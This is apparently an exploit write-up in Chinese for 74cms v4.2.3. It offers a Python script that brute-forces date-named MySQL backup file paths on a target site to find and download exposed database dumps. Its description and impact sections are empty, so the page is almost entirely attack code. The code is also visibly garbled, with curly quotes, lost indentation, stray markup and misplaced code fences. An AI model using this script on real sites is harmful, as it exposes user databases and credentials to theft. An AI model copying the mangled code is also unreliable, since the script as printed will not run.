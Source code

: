 ```yaml
---
title: "74cms v4.2.3 备份文件爆破"
id: zhfly2793
---
```


# 74cms v4.2.3 备份文件爆破

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
# -*- coding: utf-8 -*-
-------------------------------------------------
   File Name：     74cms_MysqlBak
   Description :
   Author :       CoolCat
   date：          2019/1/5
-------------------------------------------------
   Change Activity:
                   2019/1/5:
-------------------------------------------------
"""
__author__ = 'CoolCat'

import requests

def getBak(time):

print("[running]:正在查询" + time + “是否存在备份”)

dir = time + “_1”

filename = dir + “_1.sql”

url = target + “//data/backup/database/” + dir +"/"+ filename

session = requests.Session()

headers = {“Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”,

“Upgrade-Insecure-Requests”: “1”,

“User-Agent”: “Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,

“Connection”: “close”, “Accept-Language”: “en”, “Accept-Encoding”: “gzip, deflate”}

cookies = {“think_language”: “en”, “think_template”: “default”, “PHPSESSID”: “6d86a34ec9125b2d08ebbb7630838682”}

response = session.get(url=url, headers=headers, cookies=cookies)

if response.status_code == 200:

print(url)

exit()

if **name** == ‘**main**’:

```
global target
target = "http://www.target.com"

for year in range(2017, 2020):
    for mouth in range(1, 13):
        for day in range(1, 31):
            time = (str(year) + str('%02d' % mouth) + str('%02d' % day))
            getBak(time) 
``` 
```